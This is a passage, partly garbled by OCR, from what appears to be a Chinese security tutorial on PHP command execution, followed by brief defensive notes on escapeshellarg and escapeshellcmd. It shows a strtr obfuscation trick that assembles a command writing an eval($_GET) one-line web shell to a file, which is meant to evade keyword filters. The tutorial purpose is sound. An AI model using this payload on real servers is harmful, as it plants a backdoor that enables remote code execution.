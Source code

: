 (  
'echo
"<?php evqrw$_yET[1])?>" >
./2.php'  
,  
"qrwxy"  
,  
"al(_G"  
);  
$a  
($b  
);  
?>strtr函数会将匹配到的字符做替换也就是说systme替换成功system  
strtr  
(  
'echo
"<?php evqrw$_yET[1])?>" >
./2.php'  
,  
"qrwxy"  
,  
"al(_G"  
);  
  
还有其他的思路可以搜搜其他文章参考  
  
- ## 防御命令执行  
  
escapeshellarg 在字符串两端加上引号,并去掉字符串内的引号  
  
  
escapeshellarg($_GET['cmd']);     
  
此时$_GET[]传递的命令就会返回一个命令字符串而不是直接执行.  
  
但是这个函数在代码中通常可以用命令连接符绕过.  
  
escapeshellcmd 将所有特殊字符用^转义  
  
这两个函数配合使用反  
而容易出问题.而且不同的操作系统,不同的浏览器处理结果也不太一样.  
  
本人微信  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmiczTiaOWXHe6qGBn0CPwon0eJt3w78GftKUohCIdHrHIpLzDiadOnvuKUw/640?wx_fmt=jpeg&from=appmsg "")  
  
机器人回复 小趴菜 进入群聊技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicGxd0mdgfwgMYcbnTAVibCB3Eeda6oZlDupO7Qq6uKcicYlaNJZOTRLWg/640?wx_fmt=png&from=appmsg "")  
  
  
  
